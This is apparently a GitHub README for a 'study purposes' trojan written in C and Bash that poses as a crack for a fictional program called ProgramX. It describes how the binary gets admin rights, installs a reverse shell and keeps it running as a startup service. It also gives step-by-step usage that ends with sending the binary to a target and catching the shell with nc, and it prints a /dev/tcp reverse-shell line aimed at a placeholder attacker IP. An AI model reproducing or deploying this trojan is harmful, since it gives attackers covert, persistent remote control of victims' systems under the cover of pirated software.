 # Trojan - Cracking Software
Basic trojan with command and control functionatilies for ubuntu based systems. This trojan was created for study porpuses only.

It emulates a scenario of a binarie that patches/cracks a ficticional legit software called ProgramX but inside has a malware. 
When the user download it, If he try to run it without admin privileges, it will not run and ask to be run again with admin privileges.
After being executed, the binarie will do it's legimitate work of patching/cracking ProgramX but will also install a reverse shell on the user's system.
The binare will create a shell script that runs the reverse shell and then add the first script as a service to be run at system startup. 

It was coded in C and Bash Scripting.

## How to use:

1 - Change the attacker IP Address and Port to connect in the source code (line 52).

```
bash -i >& /dev/tcp/attackerip/porttoconnect 0>&1 2>&1
```
2 - Compile code

3 - Download/Send the binarie to the target machine

4 - Give Read/Write/Execution permissions to the file

```
chmod +rwx programxpatch
```

5 - Open and listen to the port in your host (attacker host) using ncat or nc

6 - Run

![image](https://github.com/Smarttfoxx/softwarecracktrojan/assets/140526026/87100563-10fd-4327-bb0e-d1f37985f41f)

![Sem título](https://github.com/Smarttfoxx/softwarecracktrojan/assets/140526026/450d909f-1a69-4cf5-b82f-986c16c4a45a)


# DISCLAIMER

This binarie was created for study only porpuses, it was not and shouldn't be used against any third party without permission.
I am not responsible for any illegal or bad use of the binarie.
